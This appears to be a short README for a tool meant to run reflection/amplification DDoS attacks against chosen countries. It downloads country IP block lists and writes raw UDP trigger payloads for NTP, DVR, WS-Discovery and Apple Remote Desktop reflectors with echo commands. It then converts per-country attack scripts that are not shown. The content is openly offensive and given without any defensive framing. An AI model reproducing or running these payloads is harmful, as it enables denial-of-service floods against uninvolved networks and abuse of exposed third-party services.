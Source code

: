 # amplification_geolocation
Do amplification attacks with specific geolocations


wget https://www.ipdeny.com/ipblocks/data/countries/br.zone

wget https://www.ipdeny.com/ipblocks/data/countries/cn.zone

wget https://www.ipdeny.com/ipblocks/data/countries/kr.zone

wget https://www.ipdeny.com/ipblocks/data/countries/th.zone


echo -ne "\x17\x00\x03\x2a\x00\x00\x00\x00" > ntp.pkt

echo -ne "\x44\x48\x49\x50" > dvr.pkt

echo -ne "<:>" > wsd.pkt

echo -ne "\x00\x14\x00\x00" > ard.pkt


apt install dos2unix -y

dos2unix br.sh

dos2unix kr.sh

dos2unix cn.sh

dos2unix th.sh
